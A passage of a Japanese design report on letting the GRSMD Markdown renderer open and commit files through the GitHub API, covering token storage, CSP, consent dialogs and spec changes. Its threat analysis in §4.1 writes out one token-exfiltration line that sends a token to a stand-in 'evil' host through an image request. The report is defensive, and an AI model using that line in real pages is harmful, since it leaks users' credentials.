| フレーム内では無効にする | `window.top !== window.self` のときは、GitHub の機能 (トークンの入力) を無効にする | **[推論]** `<meta>` の CSP では `frame-ancestors` が効かず、Pages ではヘッダーも付けられない (§1.2)。同じオリジンの別ページが GRSMD をフレームに読み込めば、その JS のメモリにまで手が届く |

**XSS とトークン (GRSMD の防御の層):**

| 層 | 効果 | 限界 |
| --- | --- | --- |
| CSP の `script-src 'sha256-…'` だけ | 注入された `<script>`、インラインのイベントハンドラ、`javascript:` の URL は実行されない [検証済: vite.config.js:51-64 の値から] | バンドルしたライブラリ自身のコードはハッシュの対象なので、**ライブラリの欠陥やサプライチェーンの汚染は防げない** |
| 専用の DOMPurify インスタンス (`<style>` も禁止) | Markdown の生 HTML からスクリプトとイベント属性を除く。フックは mermaid の DOMPurify に影響しない [検証済: MarkdownRenderer.js:12-42] | DOMPurify 自身の欠陥 (mXSS など) |
| Mermaid の `dompurifyConfig` (`style` と `img` を禁止) + `secure` のキー | `%%{init}%%` で設定を緩められない [検証済: MermaidRenderer.js:39-44] | — |
| CSP の `connect-src` | 漏えいの経路を `fetch` で絞る | **`img-src https:` (外部画像の同意のため) と画面遷移 (`location`) は CSP で止められない。** スクリプトが実行されれば、`new Image().src = "https://evil/?t=" + token` で送り出せる [推論]。また、`api.github.com` を許可すると、攻撃者はトークンの範囲内でリポジトリへ書き込める (例: 公開リポジトリにトークンを書き込む) |

→ **[推論]** 防御の要は、**スクリプトを実行させないこと** (CSP のハッシュ + DOMPurify) と、**トークンの範囲と寿命を最小にすること** の 2 つである。依存の更新時の確認 (lockfile、`npm audit`) の重要度が上がる。GitHub の機能を加えるなら、CON-07 (新しい依存には承認が要る) を引き続き厳しく守るべきである。

### 4.2 GitHub へのリクエストごとの同意 (PlantUML の形に合わせる)

**同意の単位 (案):**

| リクエスト | 同意 | 理由 |
| --- | --- | --- |
| ファイルを開く (`GET contents`、`GET repos`) | 開くたびに `window.confirm` | IP アドレスと「どのファイルを開いたか」が GitHub に伝わる。外部画像と同じ性質 |
| Reload (`GET contents`) | 毎回 `confirm` (案)。または「同じ文書を開いている間は有効」とする (オーナーの決定) | PlantUML は毎回確認している |
| コミット (`PUT contents` 等) | **毎回必ず** `confirm`。送り先 (owner/repo、ブランチ、パス) と、リポジトリが **公開か非公開か** を表示する | 内容を公開する操作で、取り消しても履歴に残る |
| トークンの検証 (任意) | トークンを入れたときに 1 回 | — |

**文言の例 (CON-06 により ASCII の英語):**

```text
Security & Confidentiality Warning

This will COMMIT the document to GitHub:
  Repository: GoodRelax/example (PUBLIC)
  Branch:     main
  Path:       docs/readme.md

The full text is sent to api.github.com and becomes part of the
repository history. A public repository is visible to everyone, and
a commit stays in the history even if it is reverted later.

[OK]: send and commit

[Cancel]: do not send anything
```

- 「非公開リポジトリだから送ってよい」とは限らない。ローカルで書き始めた文書を初めて GitHub に送る場合 (段階 3 以降の「新しいファイルとしてコミット」) は、とくに強い警告にする。
- 同意はメモリだけに持つ (INV-04)。

### 4.3 CSP の変更 (オーナーの決定が必要)

- `connect-src` を `https://www.plantuml.com https://api.github.com` にする (`buildCsp()` の 1 行と、cspPlugin のテストと、INV-20 の値)。`raw.githubusercontent.com` は **足さない** (推奨。§3.4)。
- **これがオーナーの決定である理由:**
  1. CLAUDE.md の禁止事項「PlantUML と外部画像 (どちらも同意付き) 以外の外部サーバーへの通信を勝手に追加しない」と「CSP を外さない・緩めない」に直接関わる。
  2. CSP は多重防御の一部である。許可する先を増やすと、XSS が起きたときに攻撃者が使える経路も増える (§4.1)。
  3. 単一の HTML に CSP を焼き込んでいるので、機能を有効にするかどうかを実行時に切り替えられない。つまり、使わない人の分も含めて `connect-src` が広がる。**代案:** GitHub 機能を持つ別のビルド (例: `docs/github.html`) を作り、通常の `docs/index.html` の CSP は変えない。ただし、CON-05 (単一ファイル) の解釈と、配布物が 2 つになる手間の問題がある [推論]。
- CON-12 の文言の変更案は §7.3 にある。

### 4.4 レート制限、衝突、コミットの情報

| 項目 | 事実 / 方針 |
| --- | --- |
| レート制限 | 未認証は IP ごとに 60 回/時。PAT は 5,000 回/時。二次的な制限として、内容を作るリクエストは「generally about 80 … per minute and 500 per hour」。違反し続けるとバンされることがある。403 / 429 の場合は `retry-after` と `x-ratelimit-reset` に従う [検証済: https://docs.github.com/en/rest/using-the-rest-api/rate-limits-for-the-rest-api]。GRSMD の使い方 (人が 1 回ずつ押す) なら、通常は問題にならない [推論]。**自動の再試行はしない** (失敗はトーストで伝え、ユーザーがもう一度押す) |
| 衝突 (sha の不一致) | PUT の `sha` に読み込み時の blob sha を渡す。リモートが変わっていれば 409 Conflict になる [検証済: 応答コード]。409 の場合は文書を変えず、未保存のままにして、選択肢を出す: (1) ローカルに Save as で退避する、(2) リモートを開き直す (未保存の確認あり)、(3) 段階 3 では「別のブランチにコミットして PR を出す」。**自動で上書きしてはならない** |
| コミットメッセージ | 毎回入力してもらう (`window.prompt`、既定値は `Update <path>`)。空ならコミットしない。長さの上限は [未検証] |
| 作者 | `committer` / `author` は **送らない** (認証したユーザーが既定になる [検証済])。GRSMD が名前やメールアドレスを扱わないので、個人情報が増えない。どのメールアドレスが記録されるか (noreply かどうか) は、ユーザーの GitHub の設定に依存する [未検証] |
| 署名 | API でのコミットに自動で署名されるとは文書に書かれていない [検証済]。ブランチの保護で署名を必須にしているリポジトリでは失敗する可能性がある [未検証]。その場合は段階 3 の PR を使う |
| 保護されたブランチ | 直接のコミットは拒否される [未検証: 応答コード]。エラーの内容を表示し、PR の方式に誘導する |
| 大きなファイル | 読み込みの上限は CON-08 の 5 MB である。Contents API の JSON (sha を含む) は 1 MB まで。1〜5 MB では、`object` のメディアタイプで sha を得てから `raw` で本文を得る (2 回のリクエスト) か、Git の blobs API を使う必要がある。**MVP は 1 MB までに制限する** ことを提案する (オーナーの決定)。PUT の本文の上限は [未検証] |
| バイナリ / UTF-8 以外 | 対象は `.md` だけにする (MVP)。base64 をデコードしたバイト列を `TextDecoder("utf-8", { fatal: true })` で読み、失敗したら開かない。NUL バイトの検査 (INV-18 の考え方) も行う。BOM と改行コードは `DocumentSession` が保存して戻す |
| 改行コード | `toFileText()` で元の改行コード (CRLF など) に戻してからエンコードする。こうすれば差分が改行だけの変更で埋まらない |
| base64 | `TextEncoder` で UTF-8 のバイト列にし、それを分割して `btoa(String.fromCharCode(...))` で変換する (大きな配列を一度に展開するとスタックが溢れるので分割する) [未検証: 分割の大きさ]。`Uint8Array.prototype.toBase64` は新しい API で、対応状況は [未検証] |

### 4.5 GitHub Pages での配信との関係

| 観点 | 内容 |
| --- | --- |
| 同一オリジン | GRSMD は `https://goodrelax.github.io` から配信される。`api.github.com` とは別のオリジンなので、CORS の対象になる。Cookie は送られず、API は Cookie を使わない (トークンだけ) [推論]。GitHub にサインインしていても、GRSMD がそのセッションを使うことはない |
| オリジンの共有 | **`goodrelax.github.io/*` の全プロジェクトが同じオリジン** [推論: GitHub Pages のユーザーサイトの仕組み]。→ ストレージに保存しない理由 (§4.1)。フレームに埋め込まれたときの無効化 (§4.1) |
| Referer / Origin | `src/index.html` に `<meta name="referrer">` はない [検証済]。そのため、ブラウザの既定 (`strict-origin-when-cross-origin`) で、`Referer: https://goodrelax.github.io/` (オリジンだけ) が送られる [未検証: ブラウザの既定値]。CORS では `Origin` ヘッダーが必ず送られるので、**GitHub には「GRSMD から使われた」ことが伝わる**。`fetch` に `referrerPolicy: "no-referrer"` を付けても、`Origin` は消せない [推論] |
| 非公開リポジトリ | トークンがあれば読み書きできる。内容は GitHub がすでに持っているものなので、新しい第三者に渡るわけではない [推論]。ただし、GRSMD の画面 (と、同意した外部画像や PlantUML) を経由して、非公開の内容が別のサーバーへ送られうる。**PlantUML と外部画像の同意は、GitHub から開いた文書にもそのまま適用する** (CON-04 と INV-19) |
| 配信物の改ざん | GRSMD の配信物は `docs/index.html` (このリポジトリの `main`) である。リポジトリに書き込める人は、トークンを盗む JS を配信できる [推論]。→ リポジトリ自体の保護 (2FA、ブランチの保護) が、利用者のトークンの安全性に直結する。ヘルプに「自分でビルドした、またはダウンロードしたファイルでも使える」(ローカルの `file://` で開けば `goodrelax.github.io` を信頼しなくてよい) と書く案がある。`file://` から `api.github.com` への CORS は `Origin: null` になる [未検証: GitHub がそれを受け付けるか] |
| CORS の今後 | `api.github.com` の CORS 対応は文書に明記されている。OAuth のエンドポイントの CORS 対応 (将来、バックエンドなしで OAuth を使える可能性) は、コミュニティでは要望として残っているようである [未検証: 公式の予定はない] |

### 4.6 その他の注意

- `GET contents` の応答には `download_url` (raw のホスト) と `html_url` などが含まれる。表示や遷移に使う場合は、そのホストを固定の値と照合する (応答の URL をそのまま信じない) [推論]。
- API のエラー応答の文言は、`textContent` で表示する (innerHTML には入れない)。
- Clear、新しいファイルのドロップ、別の GitHub ファイルを開いたときは、GitHub の保存先を捨てる (その場編集の 5.14.11 の表に、GitHub の行を足す)。

### 4.7 相対パスの画像 (段階 2 以降の任意の機能)

GitHub の `.md` は、`` のような相対パスの画像をよく使う。GRSMD は相対パスを「アプリの配信元へのリクエスト」として外部扱いする (CON-12)。GitHub から開いた文書に限り、相対パスを `https://raw.githubusercontent.com/{o}/{r}/{branch}/{dir}/img/a.png` に書き換えれば表示できる (`img-src https:` で許可されている。同意ゲートも通る)。非公開リポジトリの画像は、トークンを付けられないので表示できない [推論]。MVP には含めない。

---

## 5. 推奨

### 5.1 段階

**Stage plan:**



| 段階 | 内容 | 前提 | 規模 [未検証] |
| --- | --- | --- | --- |
| **0** | **ローカルクローン方式を案内する** (§3.3)。その場編集の Save で上書きし、利用者が自分の git でコミットする。ヘルプに手順を足すだけ | その場編集 (SC-24) の完成 | ヘルプの追記だけ |
| **1** | **読み取り専用:** GitHub の URL を貼ると、`api.github.com` から公開ファイルをトークンなしで開く。毎回同意を取る。Reload は取り直し。CSP の `connect-src` に `api.github.com` を足す | オーナーが CON-12 と CSP の変更を承認すること | JS 150〜250 行 (URL の解析、`GitHubContentsClient.getFile`、同意、BOM と UTF-8 の判定) + テスト 150〜250 行 |
| **2 (MVP)** | **fine-grained PAT (メモリのみ) で、非公開も開き、同じブランチへコミットする。** sha で衝突を検出し、コミットメッセージを入力し、毎回同意を取る。フレーム内では無効。トークンの破棄 | 段階 1 + その場編集の `DocumentSession` / `DocumentLocation` / `SaveOutcome` | 段階 1 に加えて JS 400〜600 行 (トークンのダイアログ、`CommitDocumentToGitHub`、`DocumentLocation` の種類、エラーの対応表) + テスト 300〜500 行 |
| 3 | **ブランチを作って PR を出す。** 409 の場合や保護されたブランチの逃げ道にもなる | 段階 2 | 150〜250 行 |
| 4 (任意) | 相対パスの画像の書き換え (§4.7)、1〜5 MB のファイル (Git の blobs API)、新しいファイルの作成 | 段階 2 | 各 100〜200 行 |
| 採用しない | OAuth (Web フロー、デバイスフロー)、GitHub App | — | バックエンドが要る (§3.2) |

### 5.2 依存

- **新しい npm の依存は不要。** `fetch`、`TextEncoder` / `TextDecoder`、`btoa` / `atob`、`URL` で足りる。Octokit などの SDK は入れない (サイズが増え、トークンに触れるコードが増え、CON-07 の承認も要るため) [推論]。
- API のバージョンは `X-GitHub-Api-Version` ヘッダーで固定できる (プリフライトで許可されている [実測])。値は実装時に公式文書で確認する [未検証]。

### 5.3 新しいクラス (案。1 クラス 1 ファイル、番号の接頭辞なし)

| クラス | 層 | 責務 |
| --- | --- | --- |
| `GitHubFileRef` | Entity (純粋) | GitHub の URL の解析と組み立て (`owner` / `repo` / `branch` / `path`)。`fromBrowserUrl(url)`、`toContentsApiPath()` |
| `GitHubContentsClient` | Adapter | `api.github.com` との通信だけを担う。`#token` を持つ。`getRepo`、`getFile`、`putFile` (段階 3 で `createBranch`、`createPullRequest`)。応答を `{status, …}` に変換する。例外を外へ投げない |
| `CommitDocumentToGitHub` | UseCase | `toFileText` → base64 → `putFile` → `SaveOutcome` |
| `OpenGitHubDocument` | UseCase | `getFile` → BOM と UTF-8 の判定 → `DocumentSession.fromFileText` + `DocumentLocation(kind: "github")` |
| (UI) | Framework | トークンのダイアログ、URL の入力、同意 (`RemoteSendConfirmPort` の実装) は UIController または小さな新しいコントローラ |

---

## 6. オーナーが決めるべき事項

1. **そもそも GitHub と通信してよいか。** CON-12 に「GitHub API (`api.github.com`)」の例外を加えるか。加えるなら、読み取りだけ (段階 1) か、コミットまで (段階 2) か。
2. **許可するホスト。** `api.github.com` だけ (推奨) か、`raw.githubusercontent.com` も加えるか。
3. **CSP の変え方。** 通常の `docs/index.html` の `connect-src` を広げるか、GitHub 機能付きの別のビルドを作るか (CON-05 との関係)。
4. **同意の単位。** 開く・Reload・コミットのそれぞれで毎回確認するか、「同じ文書を開いている間の読み取り」は 1 回の同意で済ませるか (コミットは毎回確認することを推奨)。
5. **トークンの寿命。** メモリだけ (推奨。必須とすべき) に加えて、Clear で破棄するか、一定時間使わなければ破棄するか。classic PAT を拒否するか、警告だけにするか。
6. **コミット先。** MVP は同じブランチへの直接コミットにするか、最初から「ブランチ + PR」だけにするか (後者の方が安全だが、Pull requests の権限が要り、規模も増える)。
7. **扱うファイルの大きさ。** GitHub 経由は 1 MB まで (推奨) とするか、CON-08 と同じ 5 MB まで対応するか。
8. **CON-14 (その場編集) の文言。** 「保存では通信しない」を「ローカル保存では通信しない」に限定し、GitHub へのコミットを別の要件として扱うか (§7.3)。
9. **OS-02 (ユーザーアカウント / 認証はスコープ外) の扱い。** 「GRSMD 自身はアカウントを持たない。GitHub のトークンはユーザーが持ち込む、第三者サービスの資格情報として扱う」と改めるか。
10. **フレームに埋め込まれたときの扱い。** GitHub 機能を無効にする (推奨) か。
11. **着手の順序。** その場編集の完成と仕様への反映を待ってから着手するか (推奨。保存の UseCase と状態機械を共有するため)。
12. **価値の判断。** github.dev と github.com のエディターで足りる用途に、GRSMD で行う価値 (GRSMD の描画を見ながらその場で直せる、端末に何も残らない) が、§4 のリスクに見合うか。

---

## 7. 仕様差分の提案 (本報告の中だけ。仕様書は未編集)

### 7.1 ID の採番 [検証済]

| 種別 | `spec/grsmd_gen2_spec_ja.md` (`8088bd0`) の最大 | その場編集の差分 (v7) の最大 | 本提案 |
| --- | --- | --- | --- |
| G | G-09 | G-10 | **G-11** |
| SC | SC-21 | SC-24 | **SC-25〜SC-28** |
| OS | OS-17 | OS-18 | **OS-19〜OS-20** |
| CON | CON-12 | CON-15 | **CON-16〜CON-18** |
| INV | INV-20 | INV-55 | **INV-56〜INV-68** |
| FS | FS-16 | FS-20 | **FS-21〜FS-22** |
| PRT のセクション | A〜T (テスト仕様) | U / V / W | **X** |

- 本提案は、**その場編集の差分を本体に適用した後** に適用することを前提にしている。その場編集の ID が適用時に振り直された場合は、本提案の ID もその時点の最大値の次から振り直す。
- G / SC / OS / CON / INV / FS は、その場編集の差分の最大値の次から振っている。

### 7.2 追加 (案)

**1.3 目標**

| ID | 目標 |
| --- | --- |
| G-11 | **GitHub 上の文書の編集**: GitHub の URL から Markdown を開き、その場編集で直し、ユーザーの明示的な同意の下で、同じリポジトリへコミットできる。バックエンドは持たず、認証情報を端末に残さない |

**1.5 スコープ内**

| ID | 内容 |
| --- | --- |
| SC-25 | GitHub から開く: `https://github.com/{owner}/{repo}/blob/{branch}/{path}` 形式の URL を入力すると、`api.github.com` の Contents API で `.md` を読み込み、Markdown ビューで表示する。公開リポジトリはトークンなしで開ける。通信のたびに同意ダイアログを出す (INV-57) |
| SC-26 | GitHub のトークン: ユーザーが入力する fine-grained personal access token をメモリにだけ持ち、非公開リポジトリの読み込みとコミットに使う。いつでも破棄できる |
| SC-27 | GitHub へのコミット: GitHub から開いた文書で [Save] を押すと、同意とコミットメッセージの入力の後で、読み込んだときと同じブランチとパスへ、Contents API でコミットする。リモートが変わっていればコミットしない (INV-61) |
| SC-28 | (段階 3) ブランチとプルリクエスト: 新しいブランチへコミットし、ベースのブランチへのプルリクエストを作る |

**1.5 スコープ外**

| ID | 項目 | 理由 |
| --- | --- | --- |
| OS-19 | GitHub の OAuth (Web フロー、デバイスフロー) と GitHub App によるサインイン | 2026-10-10 時点で、トークンの取得にクライアントシークレットまたは CORS の中継 (バックエンド) が要る (CON-11) |
| OS-20 | GitHub の文書の自動同期、自動コミット、複数ファイルのコミット、ファイルの削除と名前の変更、マージ | YAGNI。ユーザーの明示操作 1 回につき 1 ファイル 1 コミットに限る |

**1.6 制約**

| ID | 制約 |
| --- | --- |
| CON-16 | GitHub のトークンは、メモリ (それを使う Adapter のインスタンスの private フィールド) にだけ保持しなければならない。localStorage、sessionStorage、Cookie、IndexedDB、Origin Private File System、Cache Storage、URL (クエリとフラグメント)、`document.title`、DOM の属性、`console` に書いてはならない。送信は `Authorization` ヘッダーだけで行う |
| CON-17 | GitHub との通信先は `https://api.github.com` だけとする。`github.com/login/*` などの OAuth のエンドポイントと、`raw.githubusercontent.com` へ `fetch` してはならない |
| CON-18 | GitHub へのリクエストは、ユーザーの明示操作 (開く、Reload、Save、トークンの検証) の結果としてだけ送らなければならない。描画、自動保存、タイマー、自動の再試行では送らない |

**2. 不変要件 (EARS)**

| ID | 種別 | 要件 |
| --- | --- | --- |
| INV-56 | 常時 | システムは、ページがフレームの中に表示されている場合 (`window.top !== window.self`)、GitHub のトークンの入力と GitHub への通信を無効にすること。 |
| INV-57 | イベント駆動 | GitHub からファイルを開く操作 (SC-25) または GitHub の文書の Reload が行われた場合、システムは通信の前に、送り先 (`api.github.com`)、owner/repo、ブランチ、パスを示す確認ダイアログ (`window.confirm`) を表示すること。キャンセルの場合は通信せず、文書を変更しないこと。 |
| INV-58 | イベント駆動 | GitHub の文書で [Save] が押された場合、システムは、開いているブロック編集欄を確定した後、通信の前に、送り先 (owner/repo、ブランチ、パス) とリポジトリが公開か非公開かを示す確認ダイアログを、毎回表示すること。続けてコミットメッセージを入力させ、キャンセルまたは空の場合はコミットしないこと。 |
| INV-59 | イベント駆動 | GitHub から読み込んだ内容は、UTF-8 として厳密にデコードできない場合、または NUL バイトを含む場合、システムはその文書を開かず、理由をトーストで表示すること。BOM と改行コードは `DocumentSession` に記録し、コミットのときに元に戻すこと。 |
| INV-60 | 異常系 | GitHub から読み込むファイルの大きさが `CONFIG.github.maxBytes` を超える場合、システムはその文書を開かず、理由をトーストで表示すること。 |
| INV-61 | 異常系 | コミットの応答が 409 (sha の不一致) の場合、システムは文書と保存先を変更せず、未保存のままとし、リモートが変更されている旨と、取れる操作 (Save as でローカルに退避、開き直し) をトーストまたはダイアログで示すこと。自動で上書きや再試行をしないこと。 |
| INV-62 | イベント駆動 | コミットに成功した場合、システムは、コミットを始めたときの文書 ID が現在の文書 ID と一致するときだけ (INV-54)、基準を保存した本文に更新し、保存先の blob sha を応答の値に更新し、コミット先をトーストで表示すること。 |
| INV-63 | 異常系 | GitHub の応答が 401 / 403 / 404 / 422 / 429、またはネットワークの失敗の場合、システムは文書を変更せず、未保存のままとし、理由 (認証の失敗、権限の不足、見つからない、保護されたブランチ、レート制限 (`retry-after` / `x-ratelimit-reset` の時刻)) をトーストで表示すること。自動で再試行しないこと。 |
| INV-64 | イベント駆動 | ユーザーがトークンの破棄を選んだ場合、または Clear が実行された場合、システムはメモリ上のトークンを破棄すること。(Clear での破棄を採用するかはオーナーの決定) |
| INV-65 | 常時 | システムは GitHub へのリクエストに `committer` と `author` を含めないこと (認証したユーザーを既定とする)。 |
| INV-66 | 常時 | システムは GitHub の応答の本文や URL を `innerHTML` に入れないこと。表示は `textContent` で行うこと。応答の中の URL へ遷移や読み込みを行う場合は、ホストを固定の値と照合すること。 |
| INV-67 | 常時 | GitHub から開いた文書にも、PlantUML の同意 (INV-02 / CON-04) と外部画像の同意 (INV-19) をそのまま適用すること。GitHub の文書を新しく開いた場合は、外部画像の同意を失効させること (`.md` のドロップと同じ)。 |
| INV-68 | 常時 | GitHub へのリクエストは `cache: "no-store"` で行い、ブラウザの HTTP キャッシュの古い内容を使わないこと。 |

**4. 機能シナリオ (要旨。Gherkin は起草時に書く)**

- FS-21: GitHub から開く (公開ファイル、トークンなし。同意のキャンセル。UTF-8 でない場合。大きすぎる場合。レート制限)
- FS-22: GitHub へのコミット (成功、409、401、保護されたブランチ、同意のキャンセル、メッセージが空、コミット中の文書の置き換えの拒否)

**5.2 CONFIG (案)**

```javascript
github: {
  apiOrigin: "https://api.github.com",
  apiVersion: "2022-11-28", // to be verified against the official docs
  maxBytes: 1 * 1024 * 1024, // Contents API full support limit
  messages: {
    openConfirm: "...",       // ASCII English, PlantUML-style wording
    commitConfirm: "...",
    commitMessagePrompt: "Commit message:",
    conflict: "The file was changed on GitHub. Nothing was sent. Use Save as to keep a local copy.",
    rateLimited: (time) => `GitHub rate limit reached. Try again after ${time}.`,
    tokenForgotten: "GitHub token forgotten.",
  },
},
```

`apiVersion` の値は未検証で、実装時に公式文書で確認する。UI の文言は CON-06 により ASCII の英語とする。

**テスト仕様: セクション X (GitHub)**

PRT-X01 (開く: 公開ファイル、同意のダイアログ)、X02 (同意のキャンセルで通信しないこと。DevTools のネットワークで確認する)、X03 (トークンの入力と、トークンがどこにも保存されないこと: Application タブで Storage が空であること)、X04 (コミットの成功)、X05 (409 の衝突)、X06 (フレームの中で無効になること)、X07 (CSP: `connect-src` に PlantUML と `api.github.com` だけがあること)、X08 (リロードでトークンが失われること)。

### 7.3 既存の項目の改訂 (案)

| ID | 現行 (要旨) | 改訂案 |
| --- | --- | --- |
| **CON-12** | PlantUML 以外の外部サーバー通信を追加しない。例外: 外部画像 (同意制) | 末尾に追加: 「**例外 (2026-xx-xx): GitHub API (`https://api.github.com`)** への通信を、ユーザーの明示操作と同意の下でだけ許可する (SC-25〜SC-28、INV-57 / INV-58、CON-17 / CON-18)。送信するのは、ユーザーが指定したリポジトリへのリクエストと、コミットする文書の本文だけである。PlantUML、外部画像、GitHub の同意は、それぞれ別に扱う」 |
| **INV-01** | 外部送信は PlantUML だけ (同意の後) | 「唯一の例外は PlantUML」を「例外は PlantUML (INV-02)、外部画像 (INV-19)、GitHub API (INV-57 / INV-58) で、いずれも確認ダイアログでの同意の後にだけ送信する」に改める (外部画像の追加の時点で、すでに文言が古くなっている [検証済: spec 276 行]) |
| **INV-20** | `connect-src <PlantUMLサーバ>` | `connect-src <PlantUMLサーバ> https://api.github.com` に改める。オリジンは `CONFIG.github.apiOrigin` から導く。cspPlugin のテストも合わせて直す |
| **CON-14** (その場編集の差分) | 保存処理はネットワーク通信を行ってはならない | 「**ローカルへの保存 (SC-24)** は、ネットワーク通信を行ってはならない。GitHub へのコミット (SC-27) は、CON-12 の例外として、同意の下でだけ通信する」 |
| **OS-02** | ユーザーアカウント / 認証 | 「GRSMD 自身のユーザーアカウントと認証」はスコープ外のまま。「GitHub のトークンは、ユーザーが持ち込む第三者サービスの資格情報として SC-26 で扱う」と注記する |
| **OS-11** (その場編集で改訂済み) | — | 変更なし (GitHub へのコミットは SC-27 で別に定める) |
| **5.14.11 の表** (その場編集の差分) | 出来事ごとのセッションの扱い | 「GitHub から開く」の行を足す: `fromFileText` (新しい文書 ID)、`DocumentLocation(kind: "github")`、外部画像の同意を失効させる、Undo の記録を空にする。「GitHub へのコミットの成功」の行を足す: `withSaved`、blob sha を更新する |

---

## 付録 A: 本調査で確認した外部の情報

**公式ドキュメント [検証済]**

- REST API の Contents: https://docs.github.com/en/rest/repos/contents
- REST API の CORS: https://docs.github.com/en/rest/using-the-rest-api/using-cors-and-jsonp-to-make-cross-origin-requests
- レート制限: https://docs.github.com/en/rest/using-the-rest-api/rate-limits-for-the-rest-api
- fine-grained PAT の権限の表: https://docs.github.com/en/rest/authentication/permissions-required-for-fine-grained-personal-access-tokens
- PAT の管理: https://docs.github.com/en/authentication/keeping-your-account-and-data-secure/managing-your-personal-access-tokens
- OAuth アプリの認可 (Web フロー、デバイスフロー): https://docs.github.com/en/apps/oauth-apps/building-oauth-apps/authorizing-oauth-apps
- GitHub App のユーザーアクセストークン: https://docs.github.com/en/apps/creating-github-apps/authenticating-with-a-github-app/generating-a-user-access-token-for-a-github-app
- PKCE の changelog (2025-07-14): https://github.blog/changelog/2025-07-14-pkce-support-for-oauth-and-github-app-authentication/
- コミットの署名の検証: https://docs.github.com/en/authentication/managing-commit-signature-verification/about-commit-signature-verification
- github.dev: https://docs.github.com/en/codespaces/the-githubdev-web-based-editor
- クエリパラメーターでの認証の廃止: https://developer.github.com/changes/2020-02-10-deprecating-auth-through-query-param/
- (参考、非公式) PKCE の要望の議論。シークレットは引き続き必須とする GitHub の担当者の返信 (2025-07) と、トークンのエンドポイントの CORS が未対応であることへの言及: https://github.com/orgs/community/discussions/15752 [未検証: 公式の文書ではない]

**[実測] (2026-10-10。`curl`、`Origin: https://goodrelax.github.io`)**

| リクエスト | 結果 |
| --- | --- |
| `OPTIONS api.github.com/repos/GoodRelax/gr-simple-md-renderer/contents/README.md` (PUT、authorization と content-type を要求) | 204、`Access-Control-Allow-Origin: *`、メソッドは `GET, POST, PATCH, PUT, DELETE`、`Authorization` を許可、`max-age=86400` |
| `GET api.github.com/.../contents/README.md` (トークンなし) | 200、`Access-Control-Allow-Origin: *`、`X-RateLimit-Limit: 60`、`Cache-Control: public, max-age=60, s-maxage=60`。JSON に `sha`、`size`、`encoding: base64`、`download_url` が含まれる |
| `OPTIONS github.com/login/device/code`、`OPTIONS github.com/login/oauth/access_token` | 404、CORS ヘッダーなし |
| `POST github.com/login/oauth/access_token` (form、公開クライアント ID と偽のデバイスコード。副作用なし) | 200 と JSON のエラー (`incorrect_device_code`) を返したが、**`Access-Control-Allow-Origin` なし** → ブラウザの JS は応答を読めない |
| `GET raw.githubusercontent.com/.../README.md` | 200、`Access-Control-Allow-Origin: *`、`Cache-Control: max-age=300` |
| `OPTIONS raw.githubusercontent.com/...` (GET + authorization) | 403 |
| `GET goodrelax.github.io/gr-simple-md-renderer/` | CSP ヘッダーなし、`X-Frame-Options` なし (`<meta>` の CSP だけが効いている) |

## 付録 B: 調査で読んだファイル

- `CLAUDE.md` (メインのチェックアウト。git の管理外)
- `vite.config.js`、`src/js/main.js`、`src/js/config.js`
- `src/js/classes/UIController.js`、`RendererOrchestrator.js`、`MarkdownRenderer.js`、`ExternalImageGate.js`、`PlantUMLRenderer.js`、`MermaidRenderer.js` (一部)、`DiagramCopyController.js` (一部)、`SourceFileRenderer.js` (一部)
- `src/index.html` (`<meta>` と New Tab の部分)、`src/__tests__/cspPlugin.test.js` (一部)
- `spec/grsmd_gen2_spec_ja.md` (冒頭、1.3、1.5、1.6、2 の表、ID の最大値)、`spec/gen2_prerelease_test_spec_ja.md` (セクションの一覧)
- `temp/inplace-edit/markdown-editing-study-ja.md` (§0〜§0.1、§4.1〜4.2、§9)
- `temp/inplace-edit/spec-delta-inplace-edit-ja.md` (冒頭、§0.1〜0.4、変更 05〜09、クラス図の保存の部分、状態機械 11-e、§5.14、追跡表、ID の最大値)
